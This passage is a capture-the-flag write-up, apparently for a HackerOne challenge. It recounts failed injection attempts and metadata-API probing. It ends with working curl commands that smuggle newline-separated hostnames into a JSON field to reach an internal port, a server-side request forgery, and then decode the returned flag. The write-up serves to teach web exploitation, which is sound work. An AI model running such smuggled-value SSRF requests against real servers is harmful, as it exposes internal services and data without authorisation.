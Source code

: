 I tried the following ports: 1-1024, 3000, 4000, 5000, 3306, 5432, 8000-9000.

What I didn't know is that I was _so_ close to getting the flag but I missed it which sent me on a 10+ hours detour trying all kinds of crazy stuff.


## 10 hours sidetrack

So, after missing the flag with so little I started trying other stuff.
I tried making requests to a server I control and sending different responses, both on the DNS and HTTP level.
I tried command injections, SQL injections noSQL injections, XXE, XSS (in case there was some kind of monitoring) and memory corruption techniques but it resulted in nothing.
I tried a bunch of different encoding tricks to try to get "?" or "%" into the URL.
I also found out the server was hosted at [Digital Ocean](https://www.digitalocean.com/) and called [their metadata API](https://developers.digitalocean.com/documentation/metadata/).
This gave me internal IP adresses and other data which could have been interesting in other scenarios.
I also looked at the Apache2 /server-status page where I could see requests from all the other competitors. I even ran a monitor on this for a while in case "the admin" was visitng some secret URL.

## Resolution

After a while I revisited trying some local ports on the server. I think I might have seen the number 1337 somewhere and thought I'd test it just for fun.
Running my script with the equivalent of the following two, the flag suddenly popped out.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212\nlocalhost:1337/flag\n212.zeta-two.com"}'

```
{"next":"\/read.php?id=4"}
```
  
> curl 'http://104.236.20.43/read.php?id=3' -H 'Host: admin.acme.org' -b admin=yes

```
{"data":"RkxBRzogQ0YsMmRzVlwvXWZSQVlRLlRERXBgdyJNKCVtVTtwOSs5RkR7WjQ4WCpKdHR7JXZTKCRnN1xTKTpmJT1QW1lAbmthPTx0cWhuRjxhcT1LNTpCQ0BTYip7WyV6IitAeVBiL25mRm5hPGUkaHZ7cDhyMlt2TU1GNTJ5OnovRGg7ezYK"}
```
  
> echo "RkxBRzogQ0YsMmRzVlwvXWZSQVlRLlRERXBgdyJNKCVtVTtwOSs5RkR7WjQ4WCpKdHR7JXZTKCRnN1xTKTpmJT1QW1lAbmthPTx0cWhuRjxhcT1LNTpCQ0BTYip7WyV6IitAeVBiL25mRm5hPGUkaHZ7cDhyMlt2TU1GNTJ5OnovRGg7ezYK" |base64 -d

```
FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{\%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6
```

Apparently there was a local nginx instance running on port 1337. Who does that?!? With a mix of relief, happiness and disgust I finally got the flag and solved the challenge.
Had I just scanned a few more ports before moving on, I would have had the flag within hours of starting this, now it turned into a week long exploration of web techniques.

Thank you Hackerone for this challenge. I enjoyed (most parts of) solving it a lot.